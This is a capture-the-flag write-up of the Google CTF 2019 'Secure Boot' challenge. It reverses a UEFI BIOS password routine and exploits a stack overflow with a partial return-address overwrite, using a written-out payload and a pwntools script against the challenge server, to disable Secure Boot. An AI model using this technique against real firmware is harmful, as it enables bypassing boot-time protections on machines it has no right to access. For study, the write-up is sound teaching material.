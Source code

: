 ```yaml
---
layout: post
category: Pwn
title: Google CTF Quals 2019 - Secure Boot
tags: 
    - kowu
---
```


# Challenge overwiew

A x86\_64 qemu challenge. However, this time it is about getting it to boot up...


[Download](../assets/bin/google_secureboot.zip)

```
.
├── contents
│   ├── boot.nsh
│   ├── bzImage
│   ├── rootfs.cpio.gz
│   └── startup.nsh
├── OVMF.fd
└── run.py
```

Running the challenge and doing nothing gives us the following output:

```
UEFI Interactive Shell v2.2
EDK II
UEFI v2.70 (EDK II, 0x00010000)
Mapping table
      FS0: Alias(s):HD1a1:;BLK3:
          PciRoot(0x0)/Pci(0x1,0x1)/Ata(0x0)/HD(1,MBR,0xBE1AFDFA,0x3F,0xFBFC1)
     BLK0: Alias(s):
          PciRoot(0x0)/Pci(0x1,0x0)/Floppy(0x0)
     BLK1: Alias(s):
          PciRoot(0x0)/Pci(0x1,0x0)/Floppy(0x1)
     BLK2: Alias(s):
          PciRoot(0x0)/Pci(0x1,0x1)/Ata(0x0)
     BLK4: Alias(s):
          PciRoot(0x0)/Pci(0x1,0x1)/Ata(0x0)

If Secure Boot is enabled it will verify kernel's integrity and
return 'Security Violation' in case of inconsistency.
Booting...
Script Error Status: Security Violation (line number 5)
```

And execution stops. However, if we enter the "BIOS" by hitting `del` or `F12` we are greeted with the following:

```
BdsDxe: loading Boot0000 "UiApp" from Fv(7CB8BDC9-F8EB-4F34-AAEA-3EE4AF6516A1)/FvFile(462CAA21-7614-4503-836E-8AB6F4662331)
BdsDxe: starting Boot0000 "UiApp" from Fv(7CB8BDC9-F8EB-4F34-AAEA-3EE4AF6516A1)/FvFile(462CAA21-7614-4503-836E-8AB6F4662331)
****************************
*                          *
*   Welcome to the BIOS!   *
*                          *
****************************

Password?
```

This is where the challenge starts.

# Pre-Reversing

First of all, I modified the run.py script and added the `-s` option to qemu (-s ia a shorthand to wait for gdb connections on port 1234). I also removed the `console=/dev/null` as I want to use the console later on.

Now we can run the challenge until we get to the password input prompt. Once reached, we attach radare2 to it with `r2 -D gdb gdb://localhost:1234`. Radare will stop the execution. As the program is expecting input from us, we are probably currently in some kind of input routine. A backtrace should lead us to the calling functions.

Printing a backtrace reveals the following:

```
:> dbt
0  0x7b30a41          sp: 0x0                 0    [??]  rip r13+8403169
1  0x7ec22c9          sp: 0x7ec16c8           32   [??]  rsp+3105 
2  0x7ec5f50          sp: 0x7ec1728           96   [??]  rsp+18600 
3  0x7ed2fe7          sp: 0x7ec1758           48   [??]  rsp+71999 
4  0x7ed30c9          sp: 0x7ec1778           32   [??]  rsp+72225 
5  0x67daf5e          sp: 0x7ec17c8           80   [??]  cr3+108896862 
6  0x7b90612          sp: 0x7ec1828           96   [??]  rip+392145 
7  0x67d4d34          sp: 0x7ec18b8           144  [??]  cr3+108871732 
8  0x7ec5f50          sp: 0x7ec18f8           64   [??]  rsp+18600 
9  0x7ec8317          sp: 0x7ec1958           96   [??]  rsp+27759 
10  0x7a7e577          sp: 0x7ec1a28           208  [??]  r13+7672855 
```

I now went through all the call frames and looked for something interesting (in search for some main loop).
At frame 5 I noticed the use of `0xdeadbeefdeadbeef` (suspicious). Frame 7 checks a functions result and, depending on the output, calls another function with the string "Blocked" as an argument. Therefore I assumed `0x67dae50` to be our password check routine we are interested in.

```
0x067d4d2f      e81c610000     call 0x67dae50              ;[1]
0x067d4d34      84c0           test al, al
0x067d4d36      7511           jne 0x67d4d49
0x067d4d38      488d0d1fa100.  lea rcx, [0x067dee5e]       ; u"\nBlocked!\n"
0x067d4d3f      e8b976ffff     call 0x67cc3fd
```

To confirm this, I placed a breakpoint on the `test al, al` instruction (`db 0x67d4d34`) and, once the breakpoint was hit, manually modified the return value from zero to one (`dr rax=1`).
Continuing execution (`dc`) results in a BIOS menu where I could turn off secure boot and initiate a reboot with the new BIOS settings. As a result, the system would start up normally.

# Reversing

As I identified the password input routine, it's time for reversing (using IDA). First, I dumped the whole guest memory via the qemu monitor (press `ctrl+a` then `c` and dump using `dump-guest-memory`).
We get some decompiled and cleaned up pseudocode like this (left some details away for simplicity):

```c
int checkpasswd() {
    uint64_t *hashptr;
    char keybuffer[128];

    hashptr = malloc(32);
    for (int tries=0; tries <= 2; tries++) {
        int i=0;
        for(; i<140; i++) {
            char c = getc();
            if (c == '\r')
                break;
            keybuffer[i] = c;
            print("*");
        }
        keybuffer[i] = '\0';
        /* assumed because of magic constants */
        sha256(32, i, keybuffer, hashptr); 
        if (hashptr[0x00] == 0xdeadbeefdeadbeef &&
            hashptr[0x08] == 0xdeadbeefdeadbeef &&
            hashptr[0x10] == 0xdeadbeefdeadbeef &&
            hashptr[0x18] == 0xdeadbeefdeadbeef)
            return 1;
        print("wrong!");
    }
    return 0;
}
```

So a classic stack based overflow (128B space vs. 141B usage). We overflow into the hashptr and therefore control where the 32 Bytes of resulting hash are written to. We can use this to bypass the login password check by partially overwriting our own return address.
So instead of returning to `0x67d4d34` we want to return to `0x67d4d49`, i.e. we need to change the first byte from `0x34` to `0x49`. The return address is located at `0x7ec18b8`, therefore we need to overwrite the hashptr to point to `0x7ec18b8 - 0x20 + 1 = 0x7ec1899`.
The payload for this looks like this:

```python
pl = "A" * 136 + struct.pack('<I', 0x07ec1899)
```

To overwrite the first byte of the return address with controlled data, one can bruteforce possible sha256 hashes.
During the ctf due to lazyness I just manually incremented the first char, as the possibility is > 1/256 to hit a valid bypass :)
Dirty, but I got a working payload quite fast this way.

```python
pl = "E" + "A" * 135 + struct.pack('<I', 0x07ec1899)
```

# Launching

We now have everything together to launch the exploit against the remote target.
The del keycode (0x7f) needs to be escaped (0x1b) and we need to wait some time before we can send it (therefore the recvn(1)).

```python
from pwn import *

r = remote('secureboot.ctfcompetition.com', 1337)

if __name__ == '__main__':
    r.recvn(1)
    r.send('\x1b\x7f')
    r.recvuntil('Password?')
    pl = "E" + "A" * 135 + struct.pack('<I', 0x07ec1899)
    r.send(pl + '\x0d')
    r.interactive()
```

Launching with socat:

```
socat /dev/stdin,rawer "SYSTEM:python2 secureboot.py"
```

This will drop us into the BIOS options. There we need to deselect `Device Manager` -> `Secure Boot Configuration` -> `Attempt Secure Boot`. A reboot will start the machine and allows us to cat the flag.
